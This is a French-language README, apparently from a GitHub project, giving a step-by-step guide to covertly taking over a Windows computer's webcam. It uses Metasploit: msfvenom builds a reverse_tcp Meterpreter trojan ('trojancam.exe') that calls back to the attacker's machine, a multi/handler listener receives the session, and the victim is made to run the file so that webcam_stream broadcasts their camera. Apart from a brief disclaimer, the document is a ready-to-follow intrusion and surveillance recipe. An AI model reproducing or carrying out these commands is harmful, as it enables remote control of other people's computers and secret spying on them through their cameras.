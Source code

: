 # 🎯 Contrôle de Webcam via Meterpreter – Démonstration Éducative

Ce projet démontre comment établir une session Meterpreter sur une machine Windows cible afin d'accéder à sa webcam. Il est destiné à des fins éducatives et de sensibilisation à la cybersécurité.

## 🧰 Outils utilisés

- Metasploit Framework (préinstallé sur Kali Linux)​
- Python 3 (pour l'envoi du payload)​
- Wireshark (optionnel, pour l'analyse du trafic réseau)​
- Ettercap (optionnel, pour les attaques de type Man-in-the-Middle)

## ⚠️ Avertissement
Ce projet est destiné à des fins éducatives uniquement. L'utilisation de ces techniques sans le consentement explicite des parties concernées est illégale et contraire à l'éthique. L'auteur décline toute responsabilité en cas d'utilisation abusive.

## 🚀 Étapes pour reproduire l'attaque

### 1. Générer le Payload avec Metasploit
Utiliser ```msfvenom``` pour créer un exécutable malveillant qui établira une connexion inversée vers votre machine Kali :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip locale attaquant} LPORT=4444 -f exe -o trojancam.exe
```
- LHOST : adresse IP de votre machine Kali​
- LPORT : port d'écoute sur Kali (4444 par défaut)

### 2. Configurer un listener sur Kali (port d'écoute)
Lancer Metasploit et configurer un handler pour écouter les connexions entrantes :
```bash
msfconsole
```
Puis après lancement de Metasploit dans le terminal :
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST {ip locale attaquant}
set LPORT 4444
exploit
```

### 3. Déployer le payload sur la machine cible
Transférer trojancam.exe sur la machine cible et l'exécuter. Cela établira une session Meterpreter entre la cible et la machine Kali.

### 4. Accéder à la Webcam de la Cible
Une fois la session Meterpreter établie, activer la webcam de la cible :​
```bash
webcam_stream
```
Cela ouvrira une interface web diffusant le flux vidéo de la webcam de la cible.

## Crédits

### [iciamyplant/camera_hack](https://github.com/iciamyplant/camera_hack)
Répertoire initial qui m'a permis de comprendre le fonctionnement de Metasploit.
